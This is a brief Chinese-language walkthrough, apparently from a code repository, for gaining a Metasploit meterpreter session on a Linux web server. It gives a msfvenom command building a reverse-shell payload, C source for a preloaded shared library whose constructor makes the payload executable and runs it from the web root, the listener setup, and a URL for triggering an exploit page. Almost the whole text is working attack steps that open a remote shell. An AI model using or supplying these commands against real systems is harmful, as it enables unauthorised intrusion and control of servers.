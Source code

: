 > exp代码来自互联网

## 上线msf

### msfvenom生成payload

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.111 LPORT=9999 -f elf > test
```

### 编译so

```
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
__attribute__ ((__constructor__)) void preload (void)
{
    system("chmod +x /var/www/html/test && /var/www/html/test");
}
```

### msf监听

```
> use exploit/multi/handler
> set payload linux/x86/meterpreter/reverse_tcp
> set LHOST 192.168.0.111
> set LPORT 9999
> exploit
```

### 运行exp

```
http://192.168.0.111:18080/exp.php
```

(exp.php里的路径根据实际情况修改)

![image-20201226113404523](img\image-20201226113404523.png)